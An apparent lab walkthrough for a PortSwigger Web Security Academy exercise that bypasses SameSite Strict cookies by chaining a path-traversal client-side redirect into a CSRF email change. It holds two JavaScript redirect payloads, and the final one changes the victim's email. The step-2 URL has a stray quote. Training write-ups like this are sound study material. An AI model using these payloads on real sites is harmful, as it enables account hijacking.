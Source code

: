 # SameSite Strict bypass via client-side redirect

## This lab's change email function is vulnerable to CSRF. To solve the lab, perform a [CSRF attack](https://portswigger.net/web-security/csrf) that changes the victim's email address. You should use the provided exploit server to host your attack.

## You can log in to your own account using the following credentials: `wiener:peter`

### step1

update email
and send to repeater

go to cmment post comment
after comment post you will note page redirect automatically
https://0a17009103bdf00680f8585e00de0066.web-security-academy.net/post/comment/confirmation?postId=2

it will be redirect to
https://0a17009103bdf00680f8585e00de0066.web-security-academy.net/post/2

https://0a17009103bdf00680f8585e00de0066.web-security-academy.net/post/comment/confirmation?postId=../my-account
it wll redirect to
https://0a17009103bdf00680f8585e00de0066.web-security-academy.net/my-account

### step2

```html
<script>
  document.location =
    "'https://0a17009103bdf00680f8585e00de0066.web-security-academy.net/post/comment/confirmation?postId=../my-account";
</script>
```

click on store and view expolit it will redirect to home page

### step3 final

```html
<script>
  document.location =
    "https://0a17009103bdf00680f8585e00de0066.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1";
</script>
```
